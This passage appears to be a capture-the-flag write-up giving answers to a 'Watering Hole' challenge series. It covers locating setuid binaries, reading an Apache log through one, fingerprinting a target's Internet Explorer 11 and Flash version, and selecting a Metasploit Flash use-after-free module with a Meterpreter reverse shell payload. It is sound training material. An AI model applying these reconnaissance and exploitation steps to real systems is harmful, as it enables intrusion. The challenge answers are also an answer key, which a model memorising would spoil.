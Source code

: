'/var/log/apache2/access.log'

===Watering Hole 10===

What is the full path to the setuid binary that will allow us to read the log file?

`find / -perm -u=s -type f 2>/dev/null`

/usr/local/bin/readlog

===Watering Hole 11===

What URL is frequently accessed by a user in the DPRK source IP range?

`/usr/local/bin/readlog /var/log/apache2/access.log`


/submit_story.html

===Watering Hole 12===

What is the target's user-agent string?

Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko

===Watering Hole 13===

What browser are they using?

Internet Explorer 11

===Watering Hole 14===

Based on the user-agent string, what OS version is the target running?

Windows 8.1

===Watering Hole 15===

 Login to your test Window 8.1 VM. What is the default home page set for IE11?


http://www.nkcna.ctf/submit_story.html

===Watering Hole 16===

"What version of Adobe Flash is intalled?"

18.0.0.194

===Watering Hole 17===

"What metasploit module can exploit the installed adobe version?"

exploit/multi/browser/adobe_flash_hacking_team_uaf


===Planner 1===

What is the IP address of the host found?

Open a new terminal window to run a second metasploit module.

<pre>
msf5 > use exploit/multi/browser/adobe_flash_hacking_team_uaf 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > show options
